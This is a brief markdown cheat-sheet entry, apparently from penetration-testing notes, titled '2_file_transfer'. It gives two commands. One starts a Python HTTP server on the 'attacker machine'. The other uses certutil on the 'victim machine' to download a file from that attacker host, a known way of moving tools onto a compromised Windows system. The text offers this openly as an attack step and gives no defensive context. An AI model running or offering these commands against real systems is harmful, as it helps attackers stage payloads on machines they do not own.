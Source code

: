 # 2_file_transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine.
```shell
certutil -urlcache -f http://$me:8888/filename filename
```
